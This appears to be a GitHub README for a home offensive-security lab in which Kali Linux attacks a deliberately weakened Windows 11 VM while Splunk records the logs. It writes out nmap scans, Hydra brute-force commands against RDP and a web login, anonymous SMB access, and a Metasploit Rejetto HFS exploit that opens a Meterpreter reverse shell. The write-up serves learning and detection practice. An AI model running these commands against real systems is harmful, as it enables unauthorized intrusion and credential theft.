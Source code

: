 # 🧪 Kali x Windows 11 Offensive Security Lab

This project demonstrates a home-based penetration testing lab using Kali Linux (attacker) and Windows 11 (victim). It showcases basic offensive security skills including network scanning, brute-force attacks, exploitation, and log monitoring using Splunk.

---

## Lab Setup

### Machines Used:

| Role      | OS           | Purpose                 |
|-----------|--------------|-------------------------|
| Attacker  | Kali Linux   | Penetration testing     |
| Victim    | Windows 11 | Deliberately misconfigured |

### Virtualization:

- Software: [VirtualBox](https://www.virtualbox.org/)
- Network: Host-only Adapter (192.168.56.0/24)
- SSH/FTP ports exposed locally for testing

---

## Intentional Vulnerabilities on Windows 11

| Vulnerability | Description | Purpose |
|---------------|-------------|---------|
|  Weak RDP Credentials | `john : password` | Allows brute-force over RDP |
|  Public SMB Share | Guest-accessible share with no password | Allows anonymous access or password brute-force |
|  Fake Login Page | PHP login form that logs credentials in plain text | Web-based brute-force target for Hydra |
|  Rejetto HFS v2.3 | Exploitable HTTP file server | Known remote code execution vulnerability |
|  Logging Enabled | Logs forwarded to Splunk | Detection and monitoring of attacks |

---

##  Logging with Splunk

- Installed **Splunk Enterprise** directly on Windows 11
- Logs collected from:
  - Windows Security Logs
  - PowerShell Logs
  - System Logs
  - Sysmon (optional) (was considered but not used in this test — would be useful for deeper process tracing in future setups.)

### Enabled via `gpedit.msc`:
- Audit Logon Events
- Audit Process Tracking
- PowerShell Script Block Logging
- Module Logging
- Transcription

Splunk Web UI accessible at: [http://localhost:8000](http://localhost:8000)

---

##  Attacks Performed from Kali Linux

### 1. Nmap - Network Reconnaissance
**Tool:** `nmap`  
**Command:**
```bash
nmap -sn 192.168.56.0/24
nmap -sC -sV <Windows IP>
```

**Purpose: Identify open ports, services, and OS info. Discovered:**

* Port 80 (HTTP)

* Port 445 (SMB)

* Port 3389 (RDP)

### 2. Hydra - Brute Force Attack
**Brute-force RDP login**

Command:

```bash
hydra -t 4 -V -f -l john -P /usr/share/wordlists/rockyou.txt rdp://<Windows IP>
```
Goal: Test login credentials over RDP. Successfully found weak credentials.

**Web Form Login Attack**

Target: Custom PHP login page hosted on XAMPP (http://<Windows IP>/login.html)

Command:

```bash

hydra -l admin -P /usr/share/wordlists/rockyou.txt <Windows IP> http-post-form "/check.php:username=^USER^&password=^PASS^:Wrong credentials"
```
Result: Hydra successfully cracked default weak login.

## 3. SMB - Anonymous File Share Access
Tool: smbclient

Command:

```bash

smbclient //<Windows IP>/share -N
```
Result: Full access to shared folder with no credentials. Able to read/write files as guest.

## 4. Metasploit - Exploiting Rejetto HFS
Service: Rejetto HTTP File Server v2.3

Tool: metasploit-framework

Exploit Used: exploit/windows/http/rejetto_hfs_exec

Command (inside msfconsole):

```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <Windows IP>
set RPORT 80
set TARGET 0
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Kali IP>
set LPORT 4444
run
```
Result: Achieved a Meterpreter reverse shell on the Windows 11 machine via known vulnerability in Rejetto HFS v2.3. 
Defender was disabled to ensure stable reverse shell during exploitation.


##  Log Monitoring with Splunk

During all attacks, logs were generated and observed in Splunk:

* Failed/Successful logins (EventCode 4624 / 4625)

* RDP authentication events

* PowerShell activity logs (EventCode 4104)

* Process creation logs (EventCode 4688)

* Metasploit meterpreter sessions (seen via spawned suspicious processes)

Example SPL Queries:

```bash
index=* EventCode=4625
index=* sourcetype=WinEventLog:Security EventCode=4688
index=* source="WinEventLog:Microsoft-Windows-PowerShell/Operational"
```

**What I Learned**

* How to safely simulate and exploit common vulnerabilities

* How to use tools like Nmap, Hydra and metasploit

* How attackers leave traces in system logs

* How to use Splunk to detect unauthorized access

* How to document and present cybersecurity projects professionally

**Next Steps**


* Add more vulnerable services (e.g., MySQL, Redis)

* Try privilege escalation post-exploitation

* Automate some attacks with scripts

* Connect Splunk to a SIEM pipeline 



**Want to collab or ask questions?**

* [LinkedIn](https://www.linkedin.com/in/klaudija-balsyte-60b386251/)

* [Github](https://github.com/shoganaiix)


